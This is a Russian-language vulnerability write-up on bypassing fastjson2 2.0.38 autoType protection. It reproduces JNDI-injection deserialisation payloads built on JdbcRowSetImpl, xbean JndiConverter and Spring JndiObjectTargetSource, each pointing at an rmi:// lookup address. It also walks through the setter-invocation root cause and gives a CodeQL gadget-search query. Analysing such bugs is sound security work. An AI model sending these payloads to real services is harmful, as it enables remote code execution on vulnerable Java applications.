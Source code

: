 **CVE-2022-25845 (jinjava2 exnted) (Маджуга Богдан Андреевич)**

**Описание:**

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку fastjson2** на наличие уязвимсотей ее предшественника fastjson. В качестве уязвимости автор выбрал уязвимость отнаследованную от CVE-2022-25845, которая работала на fastjson версии *1.2.25-1.2.41*. В качестве таргета автор рассматривает fastjson2 версии *2.0.38*.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

Как и ожидалось уязвимость не сработала, по причине того, что теперь fastjson2 блокирует выполнение checkAutoType в случае если класс связан с DataSourceName. 

```
  if (ClassLoader.class.isAssignableFrom(clazz) || JDKUtils.isSQLDataSourceOrRowSet(clazz)) {
        throw new JSONException("autoType is not support. " + typeName);
  }
```

Автор предлагает легкий способ обхода данной уязвимости используя другой тип сериализуемого объекта:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lorg.apache.xbean.propertyeditor.JndiConverter;\",\"asText\":\"rmi://127.0.0.1:8089/test\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

При этом автор уточняет, что для данного взлома необходима отдельная зависимость, что делает ее менее критичной:

```
<dependency> 
  <groupId>org.apache.xbean</groupId> 
  <artifactId>xbean-reflect</artifactId> 
  <version>4.15</version>
</dependency>
```

Однако, автор нашел способ вызвать аналогичную уязвимость используя популярный фреймворк Spring, что вызывает необходимость к исправлению найденной уязвимости.

```
String poc3 = "{\n" +
                "    \"@type\":\"Lorg.springframework.jndi.JndiObjectTargetSource;\",\n" +
                "    \"jndiName\": \"rmi://127.0.0.1:12312/Exp\",\n" +
                "    \"jndiTemplate\": {\n" +
                "        \"@type\":\"org.springframework.jndi.JndiTemplate\",\n" +
                "        \"environment\": {\n" +
                "            \"java.naming.factory.initial\": \"com.sun.jndi.rmi.registry.RegistryContextFactory\"\n" +
                "        }\n" +
                "    }\n" +
                "}";

JndiObjectTargetSource o = (JndiObjectTargetSource) JSON.parse(poc3, JSONReader.Feature.SupportAutoType);
o.getTarget();
```

**Причины уязвимости:**

Основная причина уязвимости заключается в том, что библиотека fastjson умеет сериализовать JSON строку сразу в объект с указанным типом *@type (JSONReader.Feature.UseNativeObject)*. При этом установка аттрибута происходит через setter методы, которые ищутся по принципу ```name.startsWith("set")``` не обращая внимание на наличие аттрибута с искомым названием. Таким образом появляется возможность вызывать методы принимающие строку на вход, смотри пример:

```
package org.example;

public class DemoObject {
    public String fieldA;
    public String fieldB;

    public void setFieldA(String fieldA) {
        this.fieldA = fieldA;
    }

    public void setFieldC(String fieldC) {
        System.out.println("Setting field C: " + fieldC);
    }
}
```

Тогда следующие код:

```
    public static void main(String[] args) {
        String poc = "{\"@type\":\"org.example.DemoObject\",\"fieldA\":\"hello A\", \"fieldB\":\"hello B\", \"fieldC\":\"hello C\"}";
        DemoObject obj = (DemoObject) JSON.parse(poc,
                JSONReader.Feature.SupportAutoType);
        System.out.println(obj.fieldA);
    }
```

Приводит к следующему выводу в консоль:

```
Setting field C: hello C
hello A
```

Как мы видем аргумент fieldB не был установлен по причине отсутсвия setter-a, а метод setFieldC - был вызван несмотря на отсутствие соответствующего аттрибута.

**QLInspector**

Проанализиурем данную уязвимость используя библиотеку QLInspector. Будем использовать стандартный запрос:

```
import java
import libs.DangerousMethods
import libs.Source


private class DangerousExpression extends Expr {
  DangerousExpression() {
    ( this instanceof Call and this.(Call).getCallee() instanceof DangerousMethod ) or
    ( this instanceof LambdaExpr and this.(LambdaExpr).getExprBody().(MethodAccess).getMethod() instanceof DangerousMethod)
  }
}

private class CallsDangerousMethod extends Callable {
  CallsDangerousMethod(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this)
  }
}

private class RecursiveCallToDangerousMethod extends Callable {
  RecursiveCallToDangerousMethod(){

    not this instanceof Sanitizer and

    /*
    /* can be commented for more results
    */
    (
      getDeclaringType().getASupertype*() instanceof TypeSerializable or
      this.isStatic()
    )

    and

    (
     this instanceof CallsDangerousMethod or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe))
    )
  }

    /*
    /* linking a RecursiveCallToDangerousMethod to a DangerousExpression
    */
    DangerousExpression getDangerousExpression(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this and result = de ) or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe) and result = unsafe.(RecursiveCallToDangerousMethod).getDangerousExpression())
    }
}


/*
*
* global filter to block function in the chain,
* method names can be added when you found a false positive
*
*/
private class Sanitizer extends Callable {
  Sanitizer(){
    hasName([""])
  }
}


query predicate edges(ControlFlowNode node1, ControlFlowNode node2) {
    (node1.(MethodAccess).getMethod().getAPossibleImplementation() = node2 and node2 instanceof RecursiveCallToDangerousMethod) or
    (node2.(MethodAccess).getEnclosingCallable() = node1 and node1 instanceof RecursiveCallToDangerousMethod)
}

predicate hasCalls(RecursiveCallToDangerousMethod c0, RecursiveCallToDangerousMethod c1) {
    c0.polyCalls(c1) or exists(RecursiveCallToDangerousMethod unsafe | c0.polyCalls(unsafe) and hasCalls(unsafe, c1))
}

from Callable source, Callable sink
where
sink instanceof CallsDangerousMethod
and source.polyCalls(sink)
select  source, sink, sink.getFile()
```


